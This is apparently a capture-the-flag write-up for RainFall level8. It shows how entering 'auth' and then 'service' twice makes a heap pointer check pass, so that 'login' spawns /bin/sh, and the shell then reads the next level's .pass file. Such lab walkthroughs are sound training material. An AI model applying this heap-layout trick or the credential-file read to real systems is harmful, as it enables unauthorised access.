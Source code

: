 We can see on [dogbolt](https://dogbolt.org/), the program `level8` as cut in three part : <br>
`'auth '`, `service` and `login` and we are interested by `login` because there are the function system('/bin/sh')

We can notice, the condition for accessing to /bin/sh are the pointer auth + 0x20(BinaryNinja) are not null
and we can see also `'auth '` initialize auth

Testing the program we obtain :
```Shell
level8@RainFall:~$ ./level8 
> (nil), (nil) 
auth 
> 0x804a008, (nil) 
service
> 0x804a008, 0x804a018
login
Password:
> 0x804a008, 0x804a018
auth 
> 0x804a018, 0x804a018
service
> 0x804a018, 0x804a028
```
Here after each input the program print the auth pointer and the service pointer


Here we see that after each input of `service` or `auth` a new pointer is created after the previous ones with an increment of 0x10.
We start by initializing the auth pointer and then we input service 2 times to define *(auth + 0x20).
We should have `pointer, pointer+0x20`:
```Shell
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$
$ cat /home/user/level9/.pass
```